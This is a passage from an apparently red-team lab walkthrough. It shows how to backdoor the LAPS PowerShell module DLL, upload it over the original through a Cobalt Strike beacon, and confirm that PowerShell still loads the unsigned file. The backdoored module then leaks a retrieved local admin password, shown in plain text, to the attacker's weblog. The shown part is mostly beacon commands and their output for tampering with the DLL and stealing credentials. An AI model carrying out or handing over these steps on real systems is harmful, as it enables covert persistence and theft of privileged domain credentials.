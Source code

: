         }
        // end backdoor
 
7. Click Compile button.
8. Select File > Save Module
9. Upload the DLL back to the target to overwrite the existing file: ```beacon> upload C:\Users\Attacker\Desktop\AdmPwd.PS.dll```

One downside to this tactic is that it will break the digital signature of the DLL, but it will not prevent PowerShell from using it. (Well then, whadafu is the point of signing binaries?!?)

    beacon> powershell Get-AuthenticodeSignature *.dll
    Directory: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS
    SignerCertificate                         Status                                 Path
    -----------------                         ------                                 ----         
                                              NotSigned                              AdmPwd.PS.dll         
    ABDCA79AF9DD48A0EA702AD45260B3C03093FB4B  Valid                                  AdmPwd.Utils.dll

10. As nlamb on Workstation 1, grab the LAPS password for a computer:

        PS C:\Users\nlamb> Get-AdmPwdPassword -ComputerName sql-2 | fl
        ComputerName        : SQL-2
        DistinguishedName   : CN=SQL-2,OU=SQL Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io
        Password            : VloWch1sc5Hl40
        ExpirationTimestamp : 9/17/2022 12:46:28 PM

There should be a corresponding hit in the CS weblog.

